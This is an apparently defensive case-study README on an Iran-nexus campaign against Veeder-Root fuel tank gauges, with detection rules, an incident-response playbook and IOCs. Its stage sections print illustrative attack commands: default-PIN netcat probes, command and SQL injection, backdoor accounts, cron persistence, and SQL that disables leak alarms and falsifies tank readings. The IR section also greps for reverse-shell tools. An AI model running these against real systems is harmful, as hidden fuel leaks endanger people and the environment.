

# Iran-Nexus ATG Cyber-Physical Campaign: Fuel Monitor Manipulation via Internet-Exposed Veeder-Root Consoles

## TL;DR

Iran-nexus threat actors targeted internet-exposed Automatic Tank Gauge (ATG) systems — Veeder-Root TLD-350, TLS-450 Plus, and TLS4B consoles — by exploiting authentication bypass, hardcoded credentials (default 8-zero PIN), OS command injection (CVE-2025-58428, CVSS 9.4), SQL injection, and privilege escalation on the underlying Linux OS. On June 2, 2026, CISA, the FBI, NSA, Department of Energy, EPA, DOT, TSA, and USDA issued a joint advisory (IC3-260602) warning of active exploitation of internet-exposed ATGs across Energy, Chemical, Food and Agriculture, and Transportation sectors. The physical-consequence dimension is that attacker-suppressed leak detection alarms leave real fuel leaks undetected, and manipulated tank level readings cause operators to make incorrect fueling decisions. Shadowserver documented 1,061+ IPs with port 10001/tcp reachable globally as of June 5, 2026; the Energy Marketers of America (EMA) confirmed attacks on at least 15 tanks at one Tennessee fuel retailer as early as April 14, 2026. This is the first primary case in this repo covering slot #22 (OT physical/cyber-physical) and is distinct from the BAUXITE/CyberAv3ngers Rockwell PLC campaign (Day 19, AA26-097A) in equipment, protocol, sector, and advisory.

## Attribution and confidence

| Field | Value |
|-------|-------|
| Cluster | Iran-nexus (no formal name assigned by US government) |
| Aliases | None confirmed; Iranian IRGC-affiliated actors have parallel ATG/ICS history (CyberAv3ngers precedent) |
| Vendor discovery | Energy Marketers of America (EMA) advisory 2026-04-14; CNN reporting 2026-05-15; CISA/FBI/NSA/DoE IC3-260602 2026-06-02 |
| Attribution confidence | **medium** — Iran-suspected per CNN/FBI investigation (government has not formally attributed); Iran-nexus precedent (CyberAv3ngers, MuddyWater, Tortoiseshell pattern of ICS targeting) is consistent; no OSINT malware sample or infrastructure overlap to confirm |
| Overlap with prior repo cases | Extends Iran-nexus ICS targeting thread from Day 19 (`2026-05-03_BAUXITE_CyberAv3ngers_Rockwell_PLC_AA26-097A`) — distinct: different equipment (Veeder-Root ATG vs. Rockwell Logix), different advisory (IC3-260602 vs. AA26-097A), different sector (fuel retail/transport vs. water/energy/government), different CVE (CVE-2025-58428 vs. Rockwell HMI flaws) |
| Genealogy | Iranian cyber actors have targeted ATG/ICS devices since at least 2023 (Gaza war context). The EMA advisory notes the attribution was "based in part on Iran's past targeting of gas tank systems." The physical-impact escalation (alarm suppression, reading manipulation) echoes the Lviv FrostyGoop district heating attack (hiding heating failure from operators). |

## Kill chain — summary table

| Stage | MITRE | Detail |
|-------|-------|--------|
| Reconnaissance | T1595.002 | Scan port 10001/tcp; Shodan/Censys queries for Veeder-Root; 1061+ IPs globally |
| Initial Access | T1190, T1078 | Auth bypass flaw + hardcoded 8-zero PIN on Veeder-Root management interface |
| Execution | T1059.004 | OS command injection via ATG web CGI; SQL injection into ATG config database |
| Privilege Escalation | T1068 | Root on ATG embedded Linux OS via CVE-2025-58428 (CVSS 9.4) |
| Impact: Alarm Suppression | T1562.001, T0816, T0831 | Disable leak detection alarms; set thresholds to unreachable values |
| Impact: Data Manipulation | T1565.001, T0836 | Modify fuel level and temperature readings in ATG database |
| Collection / Exfiltration | T1041, T1071.001 | Collect operational fuel intelligence; outbound C2 from OT device |



The left lane follows the victim-side ATG device from internet-exposed port 10001 through authentication bypass, command execution, root privilege, and the two critical physical-consequence stages (alarm suppression in red, reading manipulation in red). The right lane tracks attacker operations: scanning, toolkit deployment, management session opening, shell persistence, and physical-consequence configuration push. Cross-lane purple dashed arrows mark the scan-to-exposure pivot and the toolkit-to-access pivot, and the physical-consequence configuration push from attacker to victim. Detection anchors are port 10001 inbound from non-RFC1918, OS command injection in ATG web management CGI, and any outbound TCP from the OT/ATG subnet.

## Stage-by-stage detail

### Stage 1 — Reconnaissance: Internet Exposure Enumeration

Attackers used internet-facing scanning services to identify Veeder-Root ATG management consoles with port 10001/tcp reachable from the public internet. The Veeder-Root TLS (Tank Level System) protocol runs on TCP/10001 and is the primary management channel for TLS-2/TLS-3/TLS-4/TLS4B series consoles. Shadowserver added ATG scanning to its Accessible ICS reporting and documented 1,061 IPs with port 10001/tcp reachable as of June 5, 2026.

```bash
# Attacker-side reconnaissance — representative commands
shodan search "port:10001 Veeder-Root" --fields ip_str,org,country
censys search "services.port:10001 and services.service_name:veeder" --index hosts
# Mass scan
zmap -p 10001 --probe-module=tcp_synscan --bandwidth=10M -o atg_10001.txt 0.0.0.0/0
```

MITRE: T1595.002 Active Scanning: Vulnerability Scanning.

### Stage 2 — Initial Access: Authentication Bypass and Hardcoded Credentials

The advisory (IC3-260602) documents two primary access vectors: (1) authentication bypass in the TLS management protocol where certain firmware versions accept function-code requests without a valid authenticated session, and (2) hardcoded or default credentials — the Veeder-Root TLS-450 series ships with an 8-digit PIN defaulting to `00000000`, which a large proportion of field-deployed units retain. CVE-2025-58428 (CVSS 9.4, CISA ICS advisory ICSA-25-296-03) describes an authenticated command injection path in the TLS4B model that escalates to shell. The authentication step is often bypassed entirely on units with the hardcoded ACL string `ALLOW:*.*.*.*` in their firmware, which grants management access regardless of source IP.

```
# Veeder-Root TLS-4 binary protocol (port 10001)
# Function code 0x01: in-tank inventory request (no valid auth required on vulnerable firmware)
echo -ne '\x01\x00\x00\x00\x0D' | nc <ATG_IP> 10001

# Default PIN authentication attempt
echo -ne '\x01\x00\x00\x00\x08\x30\x30\x30\x30\x30\x30\x30\x30' | nc <ATG_IP> 10001
```

MITRE: T1190 Exploit Public-Facing Application, T1078 Valid Accounts, T0859 Valid Accounts (ICS).

### Stage 3 — Execution: OS Command Injection and SQL Injection

Veeder-Root TLS4B units expose a web-based management interface (HTTP) for configuration. CVE-2025-58428 documents that authenticated requests to the web CGI layer pass attacker-controlled input to underlying OS command execution without sanitization, yielding remote code execution on the embedded Linux OS. SQL injection in the ATG configuration database allows direct manipulation of tank parameters, alarm thresholds, and user accounts.

```bash
# OS command injection via ATG web management CGI (illustrative — not weaponized payload)
curl -s "http://<ATG_IP>/cgi-bin/config.cgi?param=tank_id;id;whoami"

# SQL injection to enumerate user accounts
curl -s "http://<ATG_IP>/cgi-bin/admin.cgi?user=admin' OR '1'='1"
```

MITRE: T1059.004 Command and Scripting Interpreter: Unix Shell, T1190.

### Stage 4 — Privilege Escalation: Root on ATG Linux OS

The ATG web management process runs in an elevated context or the path to root on the embedded Linux OS is short (no SELinux/AppArmor on most ATG firmware). After achieving command execution, attackers escalate to root and add backdoor accounts or cron jobs for persistence across device reboots.

```bash
# Post-exploitation on ATG Linux (illustrative)
id       # uid=0(root) on vulnerable devices
useradd -m -s /bin/bash atgsvc
echo 'atgsvc:P@ss2026!' | chpasswd
# Cron persistence
echo '*/5 * * * * root /tmp/.atg_agent >/dev/null 2>&1' >> /etc/crontab
```

MITRE: T1068 Exploitation for Privilege Escalation, T0859.

### Stage 5 — Impact: Alarm Suppression (Physical Consequence)

This is the cyber-physical pivot. After gaining root, attackers modify the ATG configuration to disable or suppress leak detection alarms. This means a real physical fuel leak at the tank site will not trigger an alert — the monitoring system reports "all clear" while fuel is escaping into soil or the groundwater. Nozomi Networks' field CISO confirmed: "A malicious actor could take control of an ATG and disrupt its functions, including leak detection." Suppressed alarms also mask overfill events, which can cause fire and explosion risk in confined fuel storage areas. EPA 40 CFR Part 280 mandates ATG leak detection for underground storage tanks; suppression may trigger regulatory and reporting obligations.

```sql
-- ATG configuration database manipulation (SQL injection or shell access)
UPDATE alarm_config SET enabled = 0 WHERE alarm_type = 'LEAK_DETECT';
UPDATE alarm_config SET threshold = 99999 WHERE alarm_type = 'OVERFILL';
UPDATE audit_log SET deleted = 1 WHERE created_at > '2026-04-01';
```

MITRE: T1562.001 Impair Defenses: Disable or Modify Tools, T0816 Device Restart/Shutdown (disabling alarm function), T0831 Manipulation of Control.

### Stage 6 — Impact: Tank Reading Manipulation

Attackers modify stored fuel level and temperature readings in the ATG database. Operators and delivery crews relying on ATG readings for fuel ordering and delivery decisions receive false data. Incorrect delivery operations can cause overflow (adding fuel to a "nearly empty" tank that is actually full) or undersupply (declining delivery for a "full" tank that is empty). This stage mirrors the Stuxnet "sensor lie" pattern — the physical process continues, but the monitoring layer provides false assurance.

```sql
-- Force level reading to maximum capacity regardless of actual fuel level
UPDATE tank_data SET fuel_level = 9999, last_updated = NOW() WHERE tank_id = 1;
-- Force temperature reading to normal range to suppress thermal alarm
UPDATE tank_data SET temperature = 68.0 WHERE tank_id = 1;
```

MITRE: T1565.001 Data Manipulation: Stored Data Manipulation, T0836 Modify Parameter (ICS).

### Stage 7 — Collection / Exfiltration: Operational Fuel Intelligence

Attacker collects fuel inventory records, delivery schedules, and site layout from the ATG system, then exfiltrates via reverse shell or HTTP callback to attacker-controlled infrastructure. Any outbound TCP connection initiated from the OT/ATG subnet to internet-routable addresses is anomalous and should be treated as confirmed compromise.

MITRE: T1041 Exfiltration over C2 Channel, T1071.001 Application Layer Protocol: Web Protocols.

## Detection strategy

### Telemetry that matters

- **Firewall / NGFW**: inbound allow events on TCP/10001 from non-RFC1918 sources; any egress from OT ATG subnet to internet.
- **Network IDS/IPS**: Suricata/Snort alert on port 10001 inbound external; OS command injection patterns in HTTP to ATG management VLAN; SQL injection in ATG web requests.
- **OT platform** (Claroty/Nozomi/Dragos): alarm state changes, configuration modification events, new user accounts on ATG devices.
- **Syslog from ATG Linux OS**: `execve` for shell commands (id, whoami, wget, curl), new account creation, cron modification — if syslog forwarder is deployed in OT segment.
- **ATG management system logs** (Veeder-Root SMS, FuelsManager): login events, alarm state changes, setpoint modifications.
- **Historian / SCADA trends**: sudden level or temperature delta exceeding 1% of tank capacity per hour (manipulation indicator).

### Detection coverage

| Engine | File | Logic |
|--------|------|-------|
| Sigma | `sigma/atg_port10001_external_inbound.yml` | Inbound network_connection to port 10001 from non-RFC1918 source |
| Sigma | `sigma/atg_os_command_injection_web.yml` | Shell metachar patterns in proxy logs targeting ATG CGI endpoints |
| Sigma | `sigma/atg_unexpected_outbound_from_ot_host.yml` | Outbound internet TCP from OT ATG subnet (C2 / exfil) |
| KQL | `kql/atg_port10001_internet_exposure.kql` | DeviceNetworkEvents: inbound port 10001 connections from external IPs |
| KQL | `kql/atg_config_change_command_exec.kql` | Syslog: shell commands from ATG hostname pattern; web-to-shell pivot |
| KQL | `kql/atg_alert_suppression_hunt.kql` | CommonSecurityLog (Claroty/Nozomi CEF): alarm disable, config change, setpoint modification |
| YARA | `yara/atg_exploit_patterns.yar` | ATG TLS protocol auth bypass probe patterns; OS command injection payload strings (heuristic) |
| Suricata | `suricata/atg_fuel_monitor_campaign.rules` | SID 2400001: ext inbound port 10001; SID 2400002: default cred probe; SID 2400003: CGI cmdinj; SID 2400004: SQLi; SID 2400005: ATG device outbound |

### Threat hunting hypotheses

**H1 (PEAK)**: ATG devices in our estate have port 10001 reachable from the internet — identify all exposed units. See `hunts/peak_h1_atg_internet_exposure_inventory.md`.

**H2 (PEAK)**: Authentication anomalies on ATG management interfaces indicate credential spray or bypass exploitation — hunt for burst login failures and post-login config changes. See `hunts/peak_h2_atg_auth_anomalies_credential_abuse.md`.

**H3 (PEAK)**: Alarm suppression or level manipulation on ATG devices indicates physical-consequence activity requiring safety team escalation — assess all ATG alarm states and reconcile with physical dip measurements. See `hunts/peak_h3_atg_physical_consequence_assessment.md`.

## Incident response playbook

### First 60 minutes (triage)

1. Query firewall logs for any allow events on TCP/10001 inbound from non-RFC1918 in the last 90 days — generate a list of potentially exposed ATG devices.
2. Query ATG management system (FuelsManager/SMS) for all devices and cross-reference with firewall rules — identify which are directly internet-reachable.
3. For every exposed ATG: block port 10001/tcp at firewall immediately (do not wait for confirmation of compromise).
4. Check alarm status on every ATG: any disabled leak detection alarm must be re-enabled and tested before declaring safe.
5. Pull ATG login logs from management system: flag any source IP outside the documented OT management VLAN.
6. Notify physical safety officer if any leak detection alarm was found suppressed (potential regulatory trigger).
7. Escalate to DFIR team for forensic imaging of any ATG with confirmed unauthorized access.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|----------|------|------|-----|
| ATG management logs | Vendor-specific (FuelsManager, SMS, OilDoc) | Vendor export utility | Login history, alarm changes, config events |
| ATG Linux OS syslog | `/var/log/syslog` or `/var/log/messages` on device | `scp` from ATG via management VLAN | Shell command execution, user creation, cron changes |
| ATG configuration database dump | `/opt/tls4/db/*.db` or vendor-specific path | `sqlite3 .dump` | Tank settings, alarm config, user accounts — preserve pre-change state |
| Firewall logs | Firewall SIEM export or raw log | SIEM query | All TCP/10001 events inbound/outbound last 90 days |
| Network PCAP from ATG port 10001 | Switch SPAN port capture | Wireshark / `tcpdump -i eth0 port 10001` | Reconstruct TLS protocol session and commands sent |
| Historian / SCADA trend data | OT historian | Vendor historian export | Tank level and temperature timeline for anomaly detection |
| Physical dip-stick measurements | On-site manual measurement | Calibrated dip-stick + measurement log | Ground-truth comparison to ATG displayed readings |

### IR queries and commands

```bash
# Check ATG Linux OS for new accounts and cron entries (run on device via management VLAN)
grep -vE '^(root|daemon|bin|sys|sync|games|man|lp|mail|news|uucp|proxy|www-data|backup|list|irc|gnats|nobody|systemd|messagebus|sshd|ntp|atg)' /etc/passwd
crontab -l
cat /etc/crontab
ls -la /tmp /var/tmp /dev/shm     # check for dropped tools

# Check for reverse shells in running processes
ss -tnp | grep ESTAB               # active TCP connections
ps aux | grep -E 'nc|ncat|bash.*tcp|python.*socket'

# Forensic preservation of ATG config DB (before any changes)
sqlite3 /opt/tls4/db/tank.db ".dump" > /tmp/tank_db_dump_$(date +%Y%m%d%H%M%S).sql
```

```kql
// KQL — hunt all ATG devices that had inbound connections on port 10001 last 90d
DeviceNetworkEvents
| where Timestamp > ago(90d)
| where RemotePort == 10001
| where ActionType == "InboundConnectionAccepted"
| where not(ipv4_is_private(RemoteIP))
| summarize count(), make_set(RemoteIP), min(Timestamp), max(Timestamp) by DeviceName, LocalIP
| order by count_ desc
```

```powershell
# PowerShell — check firewall rules for port 10001 allow inbound
Get-NetFirewallRule | Where-Object {$_.Direction -eq 'Inbound' -and $_.Action -eq 'Allow'} |
  Get-NetFirewallPortFilter | Where-Object {$_.LocalPort -eq 10001}
```

### Containment, eradication, recovery

**Immediate containment**: block TCP/10001 inbound at perimeter firewall for all ATG devices. If ATG is on a cellular modem (common for gas station remote monitoring), contact the carrier to block external access on the SIM, or physically disconnect the modem. **Do NOT reboot the ATG before forensic imaging** — volatile memory may contain active reverse shell sessions or dropped tooling in `/tmp`.

**Eradication**: for confirmed compromised devices — factory reset ATG firmware to a known-good vendor image (contact Veeder-Root support for firmware hash verification), apply patches for CVE-2025-58428, change all credentials, remove any added user accounts. **Do NOT simply restore alarm configuration from backup** if the backup post-dates the compromise window — the backup may contain the attacker's suppressed alarm state.

**Recovery exit criteria**: (a) all ATG alarms enabled and tested against a simulated leak event; (b) no external access to port 10001 confirmed by firewall audit; (c) physical dip-stick measurements reconcile with ATG displayed levels within 1%; (d) ATG firmware at patched version per vendor advisory; (e) all credentials rotated.

**What NOT to do**: do not publicly announce the compromise before notifying the relevant ISAC (Oil ISAC, Ag-ISAC, Downstream Natural Gas ISAC depending on sector) — coordinated disclosure prevents attackers from knowing their access was discovered. Do not rely on ATG alarm display as accurate until physical inspection has confirmed it.

### Recovery validation

- Re-enable and test every suppressed alarm with a physical simulation (or controlled test input per vendor procedure).
- Compare ATG-displayed fuel levels with fresh manual dip-stick measurement for all tanks — acceptable delta < 1% of tank capacity.
- Conduct a 72-hour historian trend review post-recovery to confirm readings are stable and not exhibiting manipulation patterns.
- Schedule a follow-up penetration test of the ATG management VLAN within 30 days of recovery.

## IOCs

| Type | Value | Context | Confidence | Source |
|------|-------|---------|------------|--------|
| cve | CVE-2025-58428 | Veeder-Root TLS4B RCE via OS command injection; CVSS 9.4 | high | CISA ICSA-25-296-03 |
| note | IC3-260602 | CISA+FBI+NSA+DoE joint advisory June 2 2026 | high | https://www.ic3.gov/CSA/2026/260602.pdf |
| note | port 10001/tcp | Veeder-Root TLS management protocol — primary attack surface | high | IC3-260602 |
| note | ATG device models | TLD-350, TLS-450 Plus, TLS4B — confirmed in EMA + CISA advisories | high | EMA 2026-04-14 |
| note | EMA advisory | April 14 2026 — 15 tanks confirmed at one Tennessee chain | medium | fueliowa.com/EMA |
| note | Shadowserver count | 1061+ IPs on port 10001/tcp globally as of 2026-06-05 | high | BleepingComputer / Shadowserver |
| string | 00000000 | Default 8-digit PIN on Veeder-Root TLS-450 — primary hardcoded credential | high | IC3-260602 |
| string | ALLOW:*.*.*.* | Hardcoded ACL in affected Veeder-Root firmware granting unrestricted access | medium | CISA ICSA-25-296-03 |
| note | attack-vector | Auth bypass + OS cmdinj + SQL injection + priv escalation | high | IC3-260602 |
| note | physical-consequence | Suppressed leak detection = undetected fuel leak; fire/explosion risk; EPA 40 CFR 280 | high | Cybersecurity Dive / Nozomi |
| note | attribution | Iran-nexus suspected; not formally attributed by US government; medium confidence | medium | CNN 2026-05-15 |
| note | sectors | Energy / Chemical / Food and Agriculture / Transportation Systems | high | IC3-260602 |
| note | mitigation | Remove ATG from internet; firewall port 10001; VPN-gate remote access; patch CVE-2025-58428 | high | IC3-260602 |
| note | ag-isac-scope | ATGs also monitor food-grade bulk liquid storage — Ag-ISAC joint alert issued | high | Cybersecurity Dive / Braley (Ag-ISAC) |
| note | regulatory | EPA 40 CFR Part 280 mandates underground storage tank leak detection; alarm suppression may trigger reporting | high | EPA |

Full IOC list in `iocs.csv`.

## Secondary findings

- **CVE-2025-58428 class is broader than ATG**: The authenticated command execution flaw in Veeder-Root TLS4B (CVSS 9.4, ICSA-25-296-03) reflects a pattern endemic to embedded Linux OT devices designed before modern secure-coding standards — unhardened CGI, no input sanitization, `system()` or `popen()` calls with user-controlled input. Analogous paths exist in other fuel management systems (OPW, Franklin Fueling, Leighton Technologies) that use similar web-managed embedded Linux. The lesson is structural: any internet-exposed OT management interface running a web stack on embedded Linux should be assumed to have a command injection path until proven otherwise by source audit.

- **Food and agriculture sector exposure is underappreciated**: ATG systems are widely deployed for bulk liquid storage monitoring in food processing and agricultural facilities (anhydrous ammonia, fertilizer, food-grade oils). Jonathan Braley (Ag-ISAC) confirmed to Cybersecurity Dive: "A compromised ATG can disrupt harvest operations, trigger false safety alerts, or interfere with food-grade storage, with downstream impacts on food and supply continuity." The IC3-260602 advisory explicitly lists Food and Agriculture alongside Energy and Chemical — incident responders should not scope response exclusively to fuel/gas-station environments.

- **The FrostyGoop parallel — hiding a physical event from operators**: The alarm suppression technique in this campaign is structurally identical to the Sandworm/FrostyGoop attack on Lviv district heating (2024) where attackers used Modbus commands to suppress heating controller alarms, preventing operators from detecting a real system failure. In both cases, the attacker's goal is not to cause the physical event directly but to remove the operator's visibility into it. This "sensor lie" pattern generalizes across all OT environments with internet-exposed monitoring consoles — the digital attack surface is the monitoring layer, the physical consequence propagates through the process below.

## Pedagogical anchors

- **Exposure is the root cause, not the vulnerability**: the CISA advisory's primary mitigation is network architecture (remove from internet), not a patch. This is because auth bypass + hardcoded credentials + command injection are all predicated on the device being reachable. Segmentation eliminates an entire class of flaws simultaneously; patching CVE-2025-58428 alone leaves auth bypass and default credentials exploitable.

- **The physical-consequence layer requires a different IR playbook**: a compromised ATG demands physical-site verification — manual dip-stick measurements, alarm re-test — in addition to digital forensics. Digital recovery (factory reset, patch) is complete only when the physical process is confirmed safe. IR teams without OT expertise must loop in the physical safety officer before declaring recovery.

- **Sensor lies are the OT-specific attack class**: Stuxnet manipulated centrifuge speed readings while showing normal. FrostyGoop suppressed heating alarms while boilers failed. ATG campaign manipulates fuel level readings while tanks may overflow or run dry. The invariant: the attacker does not need to cause the physical event — they only need to prevent the operator from detecting it. Defend against this by requiring out-of-band physical verification (dip-stick, secondary sensor) whenever a digital alarm state changes unexpectedly.

- **Default credential persistence in OT is a decade-long failure**: the primary access vector (default 8-zero PIN) on units deployed across thousands of gas stations is not a zero-day. It is an installation practice failure that has not been corrected at scale because ATG units are treated as set-and-forget appliances rather than network-connected assets requiring lifecycle credential management.

- **Joint inter-agency advisories broaden the scope of "who cares"**: IC3-260602 was issued by eight US agencies including EPA, DOT, TSA, and USDA — not just CISA. This signals that the risk is not purely cybersecurity; it spans fuel safety, food supply continuity, and transportation infrastructure. Defenders in all four sectors should subscribe to CISA ICS advisories (us-cert.cisa.gov/ics/advisories) and the relevant sector ISAC.

## What's in this folder

| File | Purpose |
|------|---------|
| [README.md](./README.md) | This document — full case analysis, 15 sections |
| [kill_chain.svg](./kill_chain.svg) | Template A two-lane kill chain diagram; verifier ×2 PASS (880×1280) |
| [sigma/atg_port10001_external_inbound.yml](./sigma/atg_port10001_external_inbound.yml) | Detect inbound TCP/10001 from internet (reconnaissance/exploit stage) |
| [sigma/atg_os_command_injection_web.yml](./sigma/atg_os_command_injection_web.yml) | Detect OS command injection patterns in proxy logs against ATG CGI |
| [sigma/atg_unexpected_outbound_from_ot_host.yml](./sigma/atg_unexpected_outbound_from_ot_host.yml) | Detect outbound internet TCP from OT ATG subnet (C2/exfil) |
| [kql/atg_port10001_internet_exposure.kql](./kql/atg_port10001_internet_exposure.kql) | Defender XDR + Sentinel: inbound port 10001 from external IPs |
| [kql/atg_config_change_command_exec.kql](./kql/atg_config_change_command_exec.kql) | Sentinel Syslog: shell commands from ATG hosts; web-to-shell pivot |
| [kql/atg_alert_suppression_hunt.kql](./kql/atg_alert_suppression_hunt.kql) | Sentinel CommonSecurityLog (Claroty/Nozomi): alarm disable, config change |
| [yara/atg_exploit_patterns.yar](./yara/atg_exploit_patterns.yar) | ATG TLS protocol probe + OS command injection payload (heuristic, no confirmed binary) |
| [suricata/atg_fuel_monitor_campaign.rules](./suricata/atg_fuel_monitor_campaign.rules) | Suricata 7.x: 5 rules (SID 2400001-2400005) covering scan, probe, cmdinj, sqli, exfil |
| [hunts/peak_h1_atg_internet_exposure_inventory.md](./hunts/peak_h1_atg_internet_exposure_inventory.md) | H1: Enumerate ATG internet exposure in our estate |
| [hunts/peak_h2_atg_auth_anomalies_credential_abuse.md](./hunts/peak_h2_atg_auth_anomalies_credential_abuse.md) | H2: Auth anomalies and post-login config change correlation |
| [hunts/peak_h3_atg_physical_consequence_assessment.md](./hunts/peak_h3_atg_physical_consequence_assessment.md) | H3: Alarm suppression and reading manipulation physical consequence assessment |
| [iocs.csv](./iocs.csv) | 15 IOC entries: CVE, advisory refs, default credential strings, protocol port, attribution notes |

## Sources

- [CISA and Partners Urge Hardening Automatic Tank Gauge Systems (IC3-260602)](https://www.ic3.gov/CSA/2026/260602.pdf)
- [CISA ICS Advisory ICSA-25-296-03: Veeder-Root TLS4B](https://www.cisa.gov/news-events/ics-advisories/icsa-25-296-03)
- [Cybersecurity Dive: CISA, FBI warn that hackers are targeting systems used to monitor industrial fluids (2026-06-03)](https://www.cybersecuritydive.com/news/cisa-fbi-hackers-targeting-systems-monitor-industrial-fluits/821873/)
- [The CyberSignal: CISA and Partners Warn Hackers Are Targeting Fuel-Tank Monitoring Systems (2026-06-04)](https://www.thecybersignal.com/cisa-partners-automatic-tank-gauge-atg-fuel-monitoring-systems-warning-2026/)
- [CNN: Iran hackers suspected in tank reader breaches at US gas stations (2026-05-15)](https://www.cnn.com/2026/05/15/politics/iran-hackers-tank-readers-gas-stations)
- [SC Media: Iran suspected in breaching automatic tank gauges at US gas stations](https://www.scworld.com/news/iran-suspected-in-breaching-automatic-tank-gauges-at-us-gas-stations)
- [BleepingComputer: CISA warns of cyberattacks targeting fuel tank monitoring systems](https://www.bleepingcomputer.com/news/security/cisa-warns-of-cyberattacks-targeting-fuel-tank-monitoring-systems/)
- [GBHackers: CISA Alerts on Critical Veeder-Root Flaws Allowing Attackers to Execute System Commands](https://gbhackers.com/cisa-alerts-on-critical-veeder-root-vulnerabilities/)
- [Armis: AI-Driven Automated Warfare — How the Iranian ATG Hacks Expose the Vulnerabilities of US Critical Infrastructure](https://www.armis.com/blog/ai-driven-automated-warfare-how-the-iranian-atg-hacks-expose-the-vulnerabilities-of-us-critical-infrastructure/)
- [EMA / Fuel Iowa: Urgent Cybersecurity Advisory — Nationwide Cyberattacks Targeting Automatic Tank Gauges (2026-04-14)](https://www.fueliowa.com/latest-news.cfm/Article/INDUSTRY-NEWS/Urgent-Cybersecurity-Advisory-Nationwide-Cyberattacks-Targeting-Automatic-Tank-Gauges-ATGs/2026-4-14)
